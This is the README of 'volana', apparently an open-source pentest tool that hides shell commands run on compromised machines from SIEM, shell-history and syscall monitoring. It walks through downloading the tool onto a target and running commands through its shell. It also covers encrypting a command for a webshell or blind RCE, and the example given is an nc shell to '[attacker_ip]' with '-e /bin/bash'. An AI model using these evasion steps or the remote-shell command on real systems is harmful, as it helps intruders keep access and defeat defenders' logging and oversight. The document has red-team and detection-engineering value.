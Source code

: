 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM detection </h4>
<p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana execute for you).</p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build volana with encryption key
make build.volana-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use volana normally)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched


* Detection systems that are based on history command output
* Detection systems that are based on historic files
  * `.bashrc`,`zshrc`, `bash_history` etc ..

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
